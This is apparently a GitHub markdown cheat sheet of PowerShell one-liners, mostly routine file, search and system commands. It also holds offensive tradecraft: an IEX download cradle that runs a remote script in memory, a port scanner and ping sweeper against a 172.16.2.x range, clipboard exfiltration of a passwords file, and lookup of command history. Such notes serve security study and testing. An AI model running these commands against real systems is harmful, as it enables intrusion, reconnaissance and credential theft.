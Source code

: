 # PowerShell Conveniences

### Switches

`-NoExit` - Keeps ps window open; useful for debugging macros that are ran when a document is open

### Commands

Gets installed software, version, and install date.
```PowerShell
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallDate
```

Web requests (if one doesnt work, try the other). PowerUp!
```PowerShell
Invoke-WebRequest -Uri <target uri> -Method Get -Outfile <whatevs>.ps1 #IWR
powershell IEX(New-Object Net.Webclient).downloadString("<target uri>") #Invoke-Expression
#IEX if you want to execute without touching the disk
```

"which" nix-style output.
```powershell
Get-Command <your command> | Select-Object -ExpandProperty Definition
```

"grep"-like with x number of lines before or after.
```powershell
<some_cmd> | Select-String -Pattern "whatever" -Context 2,4
# print 2 lines before "whatever" and 4 lines after "whatever" (including "whatever")
```

sort uniq
```powershell
Get-Content file.txt | Sort-Object -unique
```
Find a file recursively
```powershell
gci -Path V:\Myfolder -Filter filename.ext -Recurse -ErrorAction SilentlyContinue -Force
```
Find a string within a file recursively
```powershell
ls -recurse | Select-String "google" | Select Path, LineNumber | Format-List
#alternatively
ls c:\temp\searchfolder -recurse | Select-String "google" | Select Path, LineNumber | Format-List
```
Get FQDN
```powershell
[System.Net.Dns]::GetHostByName($env:computerName)
```
Search for hidden files in a dir
```powershell
gci -recurse -Hidden -ErrorAction SilentlyContinue
```
copy files of one type from a share to your local machine, recursively
```powershell
 gci z:\ -Recurse -Filter *.xml | Copy -Destination C:\path\to\dir
 ```
wc -c equivalent
```powershell
echo "hash" | Measure-Object -Character
```
search current dir recursively for alternate data streams
```powershell
Get-ChildItem -recurse | ForEach { Get-Item $_.FullName -stream * } | Where stream -ne ':$DATA'
```
get data from ADS's found with the above cmd
```powershell
Get-Content -Path '.\Debug Mode filename.ext' -stream stream-name
```
port scanner
```powershell
1..65535 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("172.16.2.5",$_)) "Port $_ is open" } 2>$null
```
ping sweeper
```
1..255 | % {echo "172.16.2.$_"; ping -n 1 -w 100 172.16.2.$_ | select-string ttl}
```
exfil by clipboard... when all else fails.
```powershell
type passwords.txt | Set-Clipboard
```
Command history for the local machine
```powershell
(Get-PSReadlineOption).HistorySavePath
#gives file location; run type on the file to see the contents.
```
